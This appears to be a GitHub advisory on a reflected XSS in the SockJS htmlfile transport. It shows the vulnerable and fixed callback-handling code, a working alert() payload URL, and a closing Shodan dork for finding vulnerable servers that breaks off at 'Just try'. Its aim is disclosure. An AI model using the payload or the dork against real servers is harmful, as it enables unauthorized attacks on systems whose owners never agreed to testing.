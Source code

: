 ## Reflected-XSS-on-SockJS

# Summary:

There is a **Reflected XSS** in SockJS on versions before of 3.0.

# Vulnerable file:

The old versions problem is that the vulnerable file, *https://github.com/sockjs/sockjs-node/blob/master/lib/transport/htmlfile.js* and its function *htmlfile* is not checking the non-alphanumeric symbols:

```
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}
```

New versions check this, fixing the XSS :
``````
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  if (/[^a-zA-Z0-9-_.]/.test(callback)) {
    return next({
      status: 500,
      message: 'invalid "callback" parameter'
    });
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}

``````
# Payload:

Payload to execute a RXSS is the next one:


https://<vulnerablehost>/<vulnerable_dir>/000/<some_UUID>/htmlfile?c=alert(%27SOCKJS%27)//
  
For example:

https://<vulnerablehost>/<vulnerable_dir>/000/0d1d5bc5-d326-4690-9e25-e08ef24a7e3a/htmlfile?c=alert(%27SOCKJS%27)//

![alt text](https://github.com/theyiyibest/
Reflected-XSS-on-SockJS/blob/master/CVE%20Alert.jpg)
 
# Fix

New versions of this library are fixed.

# Bonus: Shodan recon
If you use the following dork: **html:"Welcome to SockJS!"** you will find some vulnerable servers. Just try 
